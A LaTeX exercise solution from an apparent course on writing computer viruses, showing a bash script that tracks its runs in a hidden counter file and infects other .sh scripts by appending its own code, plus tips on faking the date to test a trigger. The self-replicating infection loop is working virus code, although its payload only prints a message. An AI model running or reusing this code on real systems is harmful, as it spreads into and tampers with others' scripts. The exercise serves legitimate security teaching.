 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{correction}
\textbf{3b)} Virus with counter payload:
\begin{lstlisting}[title=vbashx\_phase3b.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 3b --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=23
COUNTER_FILE=".vbx_count"
# Increment execution counter
if [ -f "$COUNTER_FILE" ]; then
    COUNT=$(cat "$COUNTER_FILE")
    COUNT=$(($COUNT + 1))
else
    COUNT=1
fi
echo $COUNT > "$COUNTER_FILE"
# Payload: triggered after 3 executions
if [ $COUNT -ge 3 ]; then
    echo "[VBashX] PAYLOAD: Execution count reached $COUNT!"
fi
# Infection phase
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
    fi; fi
done
\end{lstlisting}

\textbf{3c)} To test the Friday trigger without waiting, you can use \texttt{date -d} to simulate a date:
\begin{lstlisting}[numbers=none]
# Temporarily replace in the script:
# if [ "$(date +%u)" -eq 5 ]; then
# with:
if [ "$(date -d 'next Friday' +%u)" -eq 5 ]; then
# Or define a date() function that returns a simulated date:
date() { echo "5"; }
\end{lstlisting}
You can also temporarily change the system date in a VM: \texttt{sudo date -s "next Friday"}.

\begin{pointcle}
\begin{itemize}
    \item \texttt{date +\%u} returns the day of the week as a number (1=Monday, 7=Sunday).
    \item Hidden files (starting with \texttt{.}) allow \textbf{persisting state} between virus executions without being visible to \texttt{ls}.
    \item The separation between \textbf{infection} and \textbf{payload} is an important architectural principle: the virus spreads independently of the payload trigger.
\end{itemize}
\end{pointcle}

\end{correction}



\subsection*{Phase 4 -- Polymorphism by Line Reordering}


\end{exercice}
\end{document}
